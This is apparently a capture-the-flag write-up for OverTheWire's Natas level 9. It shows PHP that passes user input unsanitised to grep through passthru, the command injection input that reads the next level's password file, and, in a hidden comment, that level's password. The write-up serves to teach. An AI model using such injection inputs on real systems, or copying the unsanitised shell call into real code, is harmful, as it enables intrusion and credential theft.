 Let's dive into the next challenge by logging in using the credentials obtained from the previous level.

Upon logging in, we observe the following:
![untitled](ScreenShots/Level%208%20->%209.jpg)

---
**How to Comment Lines in Bash**
- Referencing [warp](https://www.warp.dev/terminus/bash-comments)

**How to Merge Two Bash Commands**
- Referencing [Stack Overflow](https://stackoverflow.com/questions/20871534/concatenate-in-bash-the-output-of-two-commands-without-newline-character)
- Also from [How-To Geek](https://www.howtogeek.com/269509/how-to-run-two-or-more-terminal-commands-at-once-in-linux/)
-  Also from [ask Ubuntu](https://askubuntu.com/questions/133386/how-to-merge-and-pipe-results-from-two-different-commands-to-single-command)
---
We notice that the application is prompting us for a word to search. To understand the functionality better, we examine the source code:
```php
<?
$key = "";
if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}
if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```
The code reveals that a terminal command is executed whenever a word is entered. Specifically, the `grep` command is used to search for the input word in the file `dictionary.txt`.
```bash
grep -i "" dictionary.txt
```
We can only control the input within the `""`. To view the entire file content, we can enter `.*` as our input. However, upon doing so, we find that the password is not in `dictionary.txt`.

To proceed, we need to inject our own command to retrieve the password. By entering the following input, we can exploit a command injection vulnerability:
```bash
grep -i "; cat /etc/natas_webpass/natas10 #" dictionary.txt
```
Executing this input successfully retrieves the password.

With the password in hand, we can log into the next level using the following credentials:
```
URL: http://natas10.natas.labs.overthewire.org
Username: natas10
Password: Password obtained via the bash injection exploit
```
<!-- Password: `D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE` -->